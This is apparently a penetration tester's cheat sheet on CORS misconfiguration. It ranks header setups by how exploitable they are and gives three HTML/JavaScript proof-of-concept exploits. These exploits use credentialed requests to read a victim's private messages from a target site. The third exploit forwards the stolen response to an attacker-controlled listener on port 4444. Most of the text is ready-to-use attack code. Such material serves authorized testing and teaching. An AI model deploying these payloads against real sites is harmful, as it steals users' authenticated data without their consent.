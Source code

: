 Very useful scheme from @emgeekboy:

**POORLY IMPLEMENTED, BEST CASE FOR ATTACK:**
```
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

**POORLY IMPLEMENTED, EXPLOITABLE:**
```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

**BAD IMPLEMENTATION BUT NOT EXPLOITABLE:**
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
or just
Access-Control-Allow-Origin: *
```

**ADITIONAL NOTES**

You can send custom headers adding the following line/s (i.e):

`xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");`

Maybe you can try do some IDOR if the application uses a custom auth header (not exploitable by default):

`xhttp.setRequestHeader("Authorization", "Bearer`

**EXPLOIT #1**
Simple alert popup.

```
<html>
<script>
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.onload = function () {
alert(this.responseText);
};
xhttp.send();
</script>
</html>
```

**EXPLOIT #2**
CSRF Button and alert popup.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();

xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
document.getElementById("demo").innerHTML = alert(this.responseText);
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#2 EXPLOIT CSRF</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```

**EXPLOIT #3**
CSRF Button and a simple server to listen.

```
<!DOCTYPE html>
<html>
<head>
<script>
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
if (this.readyState == 4 && this.status == 200) {
//document.getElementById("demo").innerHTML = alert(this.responseText);
var nano = new XMLHttpRequest();
nano.open("GET", "http://mycollaborator.web:4444/?c=" + this.responseText, true);
nano.withCredentials = true;
nano.send();
}
};
xhttp.open("GET", "https://vulnerable.web/private-messages", true);
xhttp.withCredentials = true;
xhttp.send();
}
</script></head>
<center>
<h2>CORS POC#3 Exploit EXFILTRATION</h2>
<h3>Extract Authenticate Data</h3><div id="demo">
<button type="button" onclick="cors()">Exploit</button></div></body></html>
```
